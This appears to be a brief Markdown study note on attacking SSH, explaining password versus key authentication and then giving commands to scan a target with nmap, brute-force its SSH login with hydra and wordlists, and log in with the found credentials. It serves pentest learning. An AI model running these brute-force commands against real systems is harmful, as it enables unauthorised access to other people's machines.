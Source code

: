 ```yaml
---
up: "[[Exploiting Linux Vulnerabilities]]"
---
```


# Exploiting SSH

- Secure Shell - Successor of telnet
- Port 22 by default
- SSH Authentication has 2 ways:
	- username + password
		- can be brute forced
	- key based

## Demonstration

```bash
nmap -sV $TRG
```

Brute force with hydra:

```bash
hydra -L common_users.txt -P unix_passwords.txt -t 4 $TRG ssh
```

When found creds:

```bash
ssh <user>@$TRG
```
